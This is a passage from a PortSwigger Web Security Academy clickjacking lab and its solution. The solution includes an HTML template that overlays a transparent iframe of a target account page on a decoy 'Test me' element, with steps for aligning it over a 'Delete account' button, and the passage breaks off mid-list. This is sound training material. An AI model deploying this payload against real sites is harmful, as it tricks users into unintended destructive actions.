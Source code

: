 ## **Clickjacking**

https://portswigger.net/web-security/clickjacking



#### Basic clickjacking with CSRF token protection

> This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
>
> To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
>
> You can log in to your own account using the following credentials: wiener:peter 

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Log in to your account on the target website.
                    </li>
                    <li>
                        <p>
                            Go to the exploit server and paste the following HTML template into the <strong>Body</strong> section:
                        </p>
                        <code class="code-scrollable">&lt;style&gt;
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
&lt;/style&gt;
&lt;div&gt;Test me&lt;/div&gt;
&lt;iframe src="$url"&gt;&lt;/iframe&gt;</code>
                    </li>
                    <li>
                        Make the following adjustments to the template:
                        <ul>
                            <li>
                                Replace <code>$url</code> in the iframe <code>src</code> attribute with the URL for the target website's user account page.
                            </li>
                            <li>
                                Substitute suitable pixel values for the <code>$height_value</code> and <code>$width_value</code> variables of the iframe (we suggest 700px and 500px respectively).
                            </li>
                            <li>
                                Substitute suitable pixel values for the <code>$top_value</code> and <code>$side_value</code> variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
                            </li>
                            <li>